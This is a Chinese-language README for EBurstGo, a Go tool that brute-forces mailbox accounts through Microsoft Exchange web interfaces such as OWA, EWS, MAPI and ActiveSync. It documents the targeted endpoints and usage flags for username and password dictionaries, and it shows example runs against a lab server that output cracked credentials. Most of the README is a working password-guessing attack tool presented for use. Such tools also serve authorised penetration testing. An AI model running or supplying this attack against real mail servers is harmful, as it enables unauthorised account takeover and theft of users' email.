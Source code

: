 # EBurstGo

利用 Exchange 服务器 Web 接口爆破邮箱账户

参考 [grayddq/EBurst](https://github.com/grayddq/EBurst) 项目利用 Go 语言进行重构

支持接口

```shell
/autodiscover
/owa/auth.owa # OWA & ECP
/ews
/mapi
/oab
/rpc
/Microsoft-Server-ActiveSync
/powershell # 后期支持
```

## Usage

usage

```shell
Usage of ./EBurstGo:
  -check
    	检查目标 Exchange 服务器可用接口
  -domain string
    	AD 域名
  -mode string
    	指定 Exchange 服务器接口
  -pass string
    	密码字典
  -thread int
    	协程数量 (default 2)
  -url string
    	Exchange 服务器地址
  -user string
    	用户名字典
```

check

```shell
$ ./EBurstGo -url https://192.168.30.11 -check
[+] 存在 owa 接口 (/owa/auth.owa), 可以爆破
[+] 存在 powershell 接口 (/powershell), 可以爆破
[+] 存在 ecp 接口 (/owa/auth.owa), 可以爆破
[+] 存在 autodiscover 接口 (/autodiscover), 可以爆破
[+] 存在 mapi 接口 (/mapi), 可以爆破
[+] 存在 activesync 接口 (/Microsoft-Server-ActiveSync), 可以爆破
[+] 存在 oab 接口 (/oab), 可以爆破
[+] 存在 ews 接口 (/ews), 可以爆破
[+] 存在 rpc 接口 (/rpc), 可以爆破
```

brute

```shell
$ ./EBurstGo -url https://192.168.30.11 -domain hack-my.com -user users.txt -pass pass.txt -mode ews
[*] 使用 ews 接口爆破 https://192.168.30.11
[+] 成功 Administrator:abcd1234!@#$
[+] 成功 Alice:Alice123!
[+] 成功 Bob:Bob123!
[+] 成功 Marry:Marry123!
[*] 耗时 4.40084275s
```

协程数不建议开太大, 可能会漏报 (待解决?)

等后面有时间修一修 bug, 还有优化代码结构